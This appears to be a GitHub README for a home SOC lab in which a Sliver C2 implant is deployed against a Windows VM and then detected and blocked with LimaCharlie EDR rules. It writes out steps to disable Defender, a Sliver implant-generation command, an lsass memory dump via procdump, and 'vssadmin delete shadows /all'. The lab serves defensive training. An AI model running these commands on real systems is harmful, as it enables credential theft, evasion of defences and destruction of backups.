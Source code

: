 # SOC Analyst LimaCharlie EDR Lab

## Objective
The scope of this project was to create a home lab of virtual machines. The Kali-Linux VM as the attacker and the WindowVM as the victim. I used LimaCharlie EDR and Sysmon to work as my threat detection engine as well as track incoming telemetry and for logging. I used Sliver to generate C2 payloads, implant harmful files and operate the host machine in the background.

### Skills Learned

- Completely disable Defender on Windows
- Set up LimaCharlie EDR and Sysmon
- Silver to implant and activate .exe files
- Build D&R rules based on events
- Block attacks with custom rules

### Tools Used

- Virtualbox/ KaliLinux2024/ Windows 10
- LimaCharlie EDR/ Sliver Server/ Sysmon
<br/>
<br/>

## Setting up Attacker and Victim Virtual Machine
![Screenshot 2025-02-09 175701](https://github.com/user-attachments/assets/98966ca1-270b-4b29-bf0d-bb2c5d2d3c7e)

## Disabling Windows Defender
| Windows Security| Group Policy Editor| Admin CMD| Registry Editor|
|----------------------------|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 183735](https://github.com/user-attachments/assets/87efc3d6-fd62-4b42-bd77-51ef242af75f)|![Screenshot 2025-02-09 185319](https://github.com/user-attachments/assets/33c59b24-0bd8-4b7c-b68b-590bfc5b7e25)|![Screenshot 2025-02-09 185653](https://github.com/user-attachments/assets/779e2724-e792-4aa0-be0a-767e597c3337)|![Screenshot 2025-02-09 190849](https://github.com/user-attachments/assets/cfad9518-6daa-4633-bfc7-d09dc39280ab)|

<br/>

- Disable Tamper Protection/ All Virus & threat protection settings.
- Permanently Disable Defender via Group Policy Editor (Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus).
- Safeboot then disabled services in the Registry (Services\Sense,WdBoot,WinDefend,WdNisDrv,WdNisSvc,WdFilter).
  
<br/>

## Installing Sysmon in Windows VM
| Sysmon Install| LimaCharlie Install| LimaCharlie/Sysmon Event Log config|
|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 192458](https://github.com/user-attachments/assets/178f0b7e-e9bf-4274-b2c6-b6baef234a32)|![Screenshot 2025-02-09 201938](https://github.com/user-attachments/assets/07459ea8-46c0-48a1-b455-b8034452843e)|![Screenshot 2025-02-09 202231](https://github.com/user-attachments/assets/3be69ab2-dd0f-42f1-b0b2-88b7e033aacb)|

- Created a LimaCharlie organization and added a sensor for Windows.
- Configured Lima Charlie to ship the Sysmon event log alongside its own EDR telemetry.

## Setting up Attack VM
![Screenshot 2025-02-09 212656](https://github.com/user-attachments/assets/74e6fcb5-6809-48ea-ab80-ada9db5377b1)
- Installed Sliver and created a workign directory

## Attack setup against Windows VM
| Create C2 playload| Implant file transfer| Verify active implant session|
|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 215346](https://github.com/user-attachments/assets/46114902-5277-4643-adc5-5e72c342a275)|![Screenshot 2025-02-09 220319](https://github.com/user-attachments/assets/17f9cc92-24e0-4e02-8be1-cf3fe13d9846)|![Screenshot 2025-02-09 221551](https://github.com/user-attachments/assets/1b2db58d-cd5a-45f1-b78f-732d2ecbf15b)|

- Generate my C2 session payload using my Attacking VM's IP (generate --http [Linux_VM_IP] --save /opt/sliver).
- I confirm the implant config and creat a tempo web server to pull the payload down to the victim machine.
- I verify the session ID and log the session ID

## Sliver Session
![Screenshot 2025-02-09 221928](https://github.com/user-attachments/assets/e3ee6303-8b53-4b3d-9238-d6345c26a974)
- Grab basic info about the session abd that privileges my implant has (info, whoami, getprevis)

## Observing EDR Telemetry
| Processes| Network| File System|
|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 222419](https://github.com/user-attachments/assets/99999140-f7ca-4ac1-a720-1146d76d6a9b)|![Screenshot 2025-02-09 223048](https://github.com/user-attachments/assets/5ba25a3e-65b2-49e5-b128-5189639e7540)|![Screenshot 2025-02-09 223757](https://github.com/user-attachments/assets/5250f12b-6547-4b7b-8909-7d30ba50655e)|

- Checking Processes in LimaCharlie we can see the attackers C2 implant. Selecting the "FAIR_ANALOG.exe" we notice that this process doesn't carry a valid signature as it is not signed. We are also able to identify the destination IP this process is communicating with.
- We can also search the IP under Network and see that "FAIR_ANALOG.exe" is returned in the network list.
- Under File System we can check the location that the implant is running and grab the hash.

## OSINT
![Screenshot 2025-02-09 224112](https://github.com/user-attachments/assets/1de2ba44-d8a5-4eed-8d9d-535d8bbad41e)
- Inspecting the "FAIR_ANALOG.exe" file hash on Echotrail and VirusTotal comes up with zero results.
  - This does not mean that the file is not malicious. It's just not common/known in their query for the hash of the EXE. Since the payload was created by use it's not likely to appear on any OSINT tools.

## Create Detection and Response rule
| Filter Timeline Event| D&R Rule| Test Event| Detection Alert|
|----------------------------|----------------------------|----------------------------|----------------------------|
|![Screenshot 2025-02-09 224334](https://github.com/user-attachments/assets/eab8d6ad-02ab-43fd-bb19-d5640e0f33c6)|![Screenshot 2025-02-09 233939](https://github.com/user-attachments/assets/9cba0600-ff80-4a94-8f6d-9f27853f70fa)|![Screenshot 2025-02-09 234039](https://github.com/user-attachments/assets/48a302e7-a2c1-474a-b712-3262993315f9)|![Screenshot 2025-02-09 234648](https://github.com/user-attachments/assets/8afeef80-0ab1-4a13-9922-2ed93db557f6)|

- Ran the command "procdump -n lsass.exe -s lsass.dmp" since "lsass.exe" would generate events for the EDR.
- I filtered out the timeline for "FAIR_ANALOG" and found the specific event I wanted to create a D&R for.
- When it detects SENSITIVE_PROCESS_ACCESS that matches the Target Event it will generate a detection report.
- I reran the "procdump -n lsass.exe -s lsass.dmp" and now we can see tha alert in the Detection tab of LimaCharlie.

## Block attacks with D&R
![Screenshot 2025-02-10 142440](https://github.com/user-attachments/assets/37d1eeae-f430-4aa3-abda-caf4f8cf1c0f)

- Uses Silver C2 enter the victims shell
- Run "vssadmin delete shadows /all" command which can stimulate a typical ransomware attack pattern.
- The ran "whoami" to verify I still had an active system shell.

| Detection| Metadata| Event Timeline|
|![Screenshot 2025-02-10 142613](https://github.com/user-attachments/assets/bbe22668-d338-4e60-bbce-25f507beb309)|![Screenshot 2025-02-10 142813](https://github.com/user-attachments/assets/cab19567-c866-4216-b718-8cca619c7f50)|![Screenshot 2025-02-10 143201](https://github.com/user-attachments/assets/15a900de-d850-462d-a7fe-b7be41136a2b)|

- The default Sigma rules detect the action.
- When inspecting the alert the Sigma rules contain references  to understand the detection and why it exists.
- Inspected the alert on the timeline and created D&R based on the event.
